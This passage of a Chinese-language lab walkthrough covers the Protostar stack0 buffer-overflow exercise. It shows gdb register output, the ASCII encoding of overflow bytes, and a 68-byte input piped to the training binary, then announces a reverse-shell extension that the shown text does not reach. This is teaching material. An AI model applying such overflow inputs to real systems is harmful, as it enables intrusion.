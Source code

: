 ```
=> 0x08048415 <+33>:    test   eax,eax
-------------end------------

p $eax
-----------output:------------
$4 = 808464432
------------end---------------

p/x $eax(以十六进制显示eax的值,help x(x $esp+0x1c相当于p [$esp+0x1c]的效果，只不过p不支持p [somethin]命令显示内存地址对应的内容)中的/FMT可以看到支持的各种显示格式)
------------output:-------------
$5 = 0x30303030
---------------end--------------

```

这里的0x30303030是上面输入的68个键盘上的数字中的最后4个0对应的内存中的值，键盘上的数字0对应的真实内存ascii值为48（十进制）,也即十六进制0x30,更多关于ascii的理解可参考:

[https://forum.90sec.org/forum.php?mod=viewthread&tid=9217](https://forum.90sec.org/forum.php?mod=viewthread&tid=9217)

所以要输入第65到68个字符单元为内存中的0,也即ascii值为nul的字符：

```
print '\x00'(或python -c 'print "\x00"')
output:空
print '0'(或python -c 'python "0"')
output:0
print '\x30'(或python -c 'python "\x30"')
output:0

```

所以print '\x00'在内存中的数据为0,print '0'<==>print '\x30'

重新运行./stack0并输入下面的值可使modified在内存中的值不变，依然为内存中的0

1234567898123456789812345678981234567898123456789812345678981234\x00\x00\x00\x00

注意，如果直接在键盘上输入上面这一长串，最后的\x00\x00\x00\x00在内存中并不能被解析成内存中的0000,要使用如下方法:

```
print '1234567898123456789812345678981234567898123456789812345678981234\x00\x00\x00\x00' | ./stack0
#或
echo '1234567898123456789812345678981234567898123456789812345678981234\x00\x00\x00\x00' | ./stack0

```

原题中要求改变modified位，直接输入键盘上的任意大于64位的一串字符即可，因为键盘上的数字0在内存中是0x30,如果将键盘上的0键输入到对应的modified位上，会改变modified

![p3](http://drops.javaweb.org/uploads/images/1d0cfe9a8aca556a6ddefb5f122aa9245204863e.jpg)

该题要求溢出变量modified,也即覆盖栈中的modified所在的内在地址里的值，这里进行扩展，通过栈溢出反弹shell.

该题中ASLR(地址随机化) 和 NX(栈不可执行)已禁用
